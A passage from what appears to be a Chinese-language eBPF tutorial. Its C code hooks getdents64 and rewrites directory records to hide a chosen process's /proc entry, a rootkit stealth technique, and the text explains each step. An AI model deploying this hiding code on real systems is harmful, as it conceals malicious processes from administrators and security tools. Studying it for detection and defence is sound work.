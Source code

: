 ```c

    for (int i = 0; i < 200; i ++) {
        if (bpos >= total_bytes_read) {
            break;
        }
        dirp = (struct linux_dirent64 *)(buff_addr+bpos);
        bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);
        bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);

        int j = 0;
        for (j = 0; j < pid_to_hide_len; j++) {
            if (filename[j] != pid_to_hide[j]) {
                break;
            }
        }
        if (j == pid_to_hide_len) {
            // ***********
            // We've found the folder!!!
            // Jump to handle_getdents_patch so we can remove it!
            // ***********
            bpf_map_delete_elem(&map_bytes_read, &pid_tgid);
            bpf_map_delete_elem(&map_buffs, &pid_tgid);
            bpf_tail_call(ctx, &map_prog_array, PROG_02);
        }
        bpf_map_update_elem(&map_to_patch, &pid_tgid, &dirp, BPF_ANY);
        bpos += d_reclen;
    }

    // If we didn't find it, but there's still more to read,
    // jump back the start of this function and keep looking
    if (bpos < total_bytes_read) {
        bpf_map_update_elem(&map_bytes_read, &pid_tgid, &bpos, BPF_ANY);
        bpf_tail_call(ctx, &map_prog_array, PROG_01);
    }
    bpf_map_delete_elem(&map_bytes_read, &pid_tgid);
    bpf_map_delete_elem(&map_buffs, &pid_tgid);

    return 0;
}

```

在这个函数中，我们首先获取了当前进程的 PID 和线程组 ID，然后检查系统调用是否读取到了目录的内容。如果没有读取到内容，我们就直接返回。

然后我们从 `map_buffs` 这个 map 中获取 `getdents64` 系统调用入口处保存的目录内容的地址。如果我们没有保存过这个地址，那么就没有必要进行进一步的处理。

接下来的部分有点复杂，我们用了一个循环来迭代读取目录的内容，并且检查是否有我们想要隐藏的进程的 PID。如果我们找到了，我们就用 `bpf_tail_call` 函数跳转到 `handle_getdents_patch` 函数，进行实际的隐藏操作。

```c
SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_patch(struct trace_event_raw_sys_exit *ctx)
{
    // Only patch if we've already checked and found our pid's folder to hide
    size_t pid_tgid = bpf_get_current_pid_tgid();
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_to_patch, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }

    // Unlink target, by reading in previous linux_dirent64 struct,
    // and setting it's d_reclen to cover itself and our target.
    // This will make the program skip over our folder.
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp_previous = (struct linux_dirent64 *)buff_addr;
```